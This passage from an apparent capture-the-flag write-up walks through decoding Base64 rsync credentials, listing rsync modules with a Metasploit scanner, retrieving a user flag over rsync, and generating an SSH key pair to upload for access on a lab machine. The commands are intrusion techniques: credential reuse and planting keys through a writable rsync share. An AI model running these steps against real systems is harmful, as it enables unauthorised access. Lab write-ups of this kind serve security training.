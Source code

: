 After decoding the Base64 string, I obtained credentials to interact with the system via rsync:
```bash
$ echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhbcmVtb3ZlZF12" | base64 -d
Authorization for rsync://rsync-connect@127.0.0.1 with password H[removed]v
```

## Port 873 Analysis

For further enumeration, I started Metasploit and loaded a module that lists available rsync modules:
```bash
msf6 > use auxiliary/scanner/rsync/modules_list
msf6 auxiliary(scanner/rsync/modules_list) > set RHOSTS 10.10.85.213
  RHOSTS => 10.10.85.213
msf6 auxiliary(scanner/rsync/modules_list) > run

  [+] 10.10.85.213:873      - 1 rsync modules found: files
  [*] 10.10.85.213:873      - Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
```

The Metasploit module revealed that the `files` module was available, so I accessed it and successfully retrieved the user flag:
```bash
$ rsync -av -P rsync://rsync-connect@10.10.85.213/files rsyncoutput
/rsyncoutput/sys-internal$ ls
  Desktop  Documents  Downloads  Music  Pictures  Public  Templates  user.txt  Videos
/rsyncoutput/sys-internal$ cat user.txt 
  THM{d[removed]b}
```

## Initial Access 

Since I was able to upload files using rsync, I created a new SSH key pair:
```bash
$ ssh-keygen -t rsa
  Generating public/private rsa key pair.
  Enter file in which to save the key (/home/kali/.ssh/id_rsa): /home/kali/ctf/vulnnetinternal/id_rsa
  Enter passphrase (empty for no passphrase): 
  Enter same passphrase again: 
  Your identification has been saved in /home/kali/ctf/vulnnetinternal/id_rsa
  Your public key has been saved in /home/kali/ctf/vulnnetinternal/id_rsa.pub
  The key fingerprint is:
  SHA256:zWU4ejN1NN1NkGMD7jN1pPEW7NkzWnpPEzWU4zWnVZ7N4zWnD kali@kali
  The key's randomart image is:
  +---[RSA 3072]----+
  |      . E        |
  |     ..+ . .     |
  |. + . o=. + .    |
  | B = *ooo. o     |
  |* + * +oS        |
  | o = ++.*.       |
  |  .o+o.* +       |
  |  ++= .   .      |
  | o.o+o           |
  +----[SHA256]-----+
```
